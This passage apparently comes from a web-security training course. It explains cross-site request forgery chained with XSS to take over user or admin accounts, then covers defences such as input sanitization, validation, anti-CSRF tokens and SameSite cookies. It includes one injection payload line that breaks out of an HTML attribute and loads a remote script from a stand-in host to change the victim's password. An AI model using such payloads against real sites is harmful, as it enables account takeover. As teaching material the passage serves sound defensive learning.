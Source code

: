 
The third type of front end vulnerability that is caused by unfiltered user input is Cross-Site Request Forgery (CSRF). CSRF attacks may utilize XSS vulnerabilities to perform certain queries, and API calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

A common CSRF attack to gain higher privileged access to a web application is to craft a JavaScript payload that automatically changes the victim's password to the value set by the attacker. Once the victim views the payload on the vulnerable page (e.g., a malicious comment containing the JavaScript CSRF payload), the JavaScript code would execute automatically. It would use the victim's logged-in session to change their password. Once that is done, the attacker can log in to the victim's account and control it.

CSRF can also be leveraged to attack admins and gain access to their accounts. Admins usually have access to sensitive functions, which can sometimes be used to attack and gain control over the back-end server (depending on the functionality provided to admins within a given web application). Following this example, instead of using JavaScript code that would return the session cookie, we would load a remote .js (JavaScript) file, as follows:

Code: html
"><script src=//www.example.com/exploit.js></script>
The exploit.js file would contain the malicious JavaScript code that changes the user's password. Developing the exploit.js in this case requires knowledge of this web application's password changing procedure and APIs. The attacker would need to create JavaScript code that would replicate the desired functionality and automatically carry it out (i.e., JavaScript code that changes our password for this specific web application).

Prevention
Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

Type	Description
Sanitization	Removing special characters and non-standard characters from user input before displaying it or storing it.
Validation	Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)
Furthermore, it is also important to sanitize displayed output and clear any special/non-standard characters. In case an attacker manages to bypass front end and back end sanitization and validation filters, it will still not cause any harm on the front end.

Once we sanitize and/or validate user input and displayed output, we should be able to prevent attacks like HTML Injection and XSS. Another solution would be to implement a web application firewall (WAF), which can help prevent injection attempts automatically. However, it should be noted that WAF solutions can potentially be bypassed, so developers should follow coding best practices and not merely rely on an appliance to detect/block attacks.

To defend against XSS, modern browsers have built-in protections that block the automatic execution of Javascript code. In the case of CSRF, most modern web applications include anti-CSRF mechanisms, such as requiring a unique token for each session or request. Additionally, HTTP-level defenses like the SameSite cookie attribute (SameSite=Strict or Lax) can restrict browsers from including authentication cookies in cross-origin requests. Functional protections, like requiring the user to input their password before changing it, can also help mitigate the impact of CSRF. Despite these security measures, they can still be bypassed in certain scenarios. As a result, vulnerabilities like XSS and CSRF continue to pose significant risks to web application users. These defenses should be treated as additional layers of protection, not primary safeguards—developers must ensure that their applications are secure by design and not inherently vulnerable to such attacks.

This Cross-Site Request Forgery Prevention Cheat Sheet from OWASP discusses the attack and prevention measures in greater detail.